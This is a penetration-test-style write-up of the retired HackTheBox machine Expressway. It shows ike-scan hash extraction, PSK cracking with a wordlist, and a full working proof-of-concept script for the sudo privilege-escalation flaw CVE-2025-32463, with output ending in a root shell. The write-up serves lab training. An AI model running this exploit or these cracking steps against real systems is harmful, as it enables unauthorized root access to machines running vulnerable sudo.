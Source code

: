 ```yaml
---
title: PENETRATION TESTING REPORT - EXPRESSWAY MACHINE
description: This write-up for the retired machine Expressway was completed while the machine was still active on the HackTheBox platform. Publication was held until after its official retirement to comply with platform guidelines.
author: ZoldyckSec
date: 2025-09-28 00:00:00 +0800
categories: [HackTheBox, Expressway]
tags: [CTF, UDP, IKE, Easy, PSK, CVE-2025-32463]
render_with_liquid: false
image:
  path: /assets/img/Expressway/Card-Express.png
---
```


## Description:

- `Date` Sep 27, 2025
- `Machine` Expressway (Linux)
- `Difficulty` Easy
- `Prepared by` Allan Espinoza(Aka.ZoldyckSec)

## EXECUTIVE SUMMARY

A security assessment was conducted against the Expressway machine, identifying critical vulnerabilities in the IPSec VPN service implementation. Complete system compromise was achieved through exploitation of an IKE/ISAKMP service configured in aggressive mode, followed by privilege escalation leveraging a sudo vulnerability (CVE-2025-32463).

#### Key Findings

- `Critical` Service in agressive mode allowing PSK brute-forcing
- `High` Weak Pre-Shared Key susceptible to dictionary attacks
- `Critical`  Multiple scripts with sudo permissions allowing privilege escalation

## 1. INTRODUCTION

#### 1.1 Scope and Objectives
The assessment focused on the Expressway machine with the objective of identifying attack vectors through non-conventional services and vulnerable IPSec VPN configurations.

#### 1.2 Methodology
A testing methodology centered on UDP enumeration and IPSec service exploitation was employed.

- Exhaustive UDP service enumeration
- IKE/ISAKMP service analysis on UDP port 500
- Offline Pre-Shared Key (PSK) brute-forcing
- Exploitation of vulnerable sudo configuration on multiple scripts

## 2. TECHNICAL METHODOLOGY

#### 2.1 Reconnaissance Phase
- `Tools` nmap, ike-scan
- `Techniques` Exhaustive UDP scanning, IKE service fingerprinting

#### 2.2 Vulnerability Analysis Phase
- `Tools` ike-scan, psk-crack, custom wordlists
- `Techniques` Aggressive mode detection, IKE hash extraction

#### 2.3 Exploitation Phase
- `Techniques` Offline PSK brute-forcing, sudo privilege abuse through multiple scripts

## 3. DETAILED FINDINGS

#### 3.1 Critical Finding 001: IKE/ISAKMP Service in Aggressive Mode

The IKE/ISAKMP service on UDP port 500 is configured in aggressive mode, allowing hash extraction for offline brute-force attacks.

#### Evidence

```bash
ike-scan -A 10.10.11.87 -P
````

```markdown
IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
954d1bf7f7949d6216d26034fdededd2dfa91a603a4f2dba9e0a85e1fdce764ba7a868fc85a258472e6c91c905d21b180ca24a93886f0141712fe45862f2d8f54134741c0d2834355421f1d6b845fc58dbee643c0f6c6830a1f095b61c1fcc78e4db59e552db8e763d60f4fe624e24b35f770db5d5120af859985727395e1392:53bec0cd48ec92f2fe60df3751c080f8b6b92b45336312cd6d3c133bf2a5e93d10a30e9c444bd22249e8411d0ce7c3b6d22dbdbb2b0778fd68728aad84adb6dc2ab591fa105ccdcfd512637b76b9a052e0ed24565ce7bc3ba2c368a8b499a2ef4fd8212940256a1bce47db3a621bf582c592eaeb7a37ba519c6666b5a43c29d1:f77714c7d8fd7ed4:305b0ddf6f47d41c:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:679e4a6ac6afed51e8ec22d9f598937227a553ee:692fe7379ce6731b5a5659a3fd0a8ca8d50f05b88f936b5933fd7f8733df1bfd:ffe04d53c6ea615b98594efb211e3caed831a9e2
```

## 3.2 High Finding 002: Weak Pre-Shared Key

An IKE hash was extracted from the aggressive mode service and successfully cracked via dictionary attack, revealing a weak PSK.

#### Evidence

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt hash
```

```markdown
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 54d97619cb37951c5be413903e6d6d2a78be31a7
```
## 3.3 Critical Finding 003

Vulnerability CVE-2025-32463 was identified and exploited in the sudo configuration, which allowed full escalation of privileges without requiring prior enumeration of sudo permissions.

#### Evidence 

- `kh4sh3i/CVE-2025-32463`

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
````

```markdown
ike@expressway:~$ ./exploit.sh 
woot!
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
root@expressway:/# whoami
root
```

## 4. EXPLOITATION AND POST-EXPLOITATION

#### 4.1 Initial Compromise

```bash
nmap -sU --top-ports 100 -T4 -v -n --reason -oN UDP 10.10.11.87
```
- `-sU` **UDP Scan**. Sends UDP probes to ports and waits for either a response or an ICMP "port unreachable" message. UDP lacks a handshake, which is why it's typically slower and less accurate than TCP.

- `--top-ports` Scans **the top 100 most common UDP ports** according to the Nmap database (instead of 1-65535). Good for quick reconnaissance, but may miss services on non-standard ports.

- `-T4` **Timing Template**: Aggressive/Fast. Reduces timeouts and waits less for responses → faster scan but higher risk of **false negatives** and more network noise (detectable by IDS/IPS). Often reasonable for UDP, but if a firewall delays responses, prefer `-T3` or `-T4` with retries.

- `-v` **Verbosity**: More detailed console output. Shows progress and useful information. (You can use `-vv`/`-vvv` for more detail, but `-v` is usually sufficient.)

- `-n` **No DNS resolution**. Nmap will not attempt to resolve IP → hostname (faster, less DNS traffic).

- `--reason` Shows **why** Nmap classified a port (e.g., "ICMP port unreachable" → closed; "no response" → open|filtered). Very useful for interpreting UDP results.





  
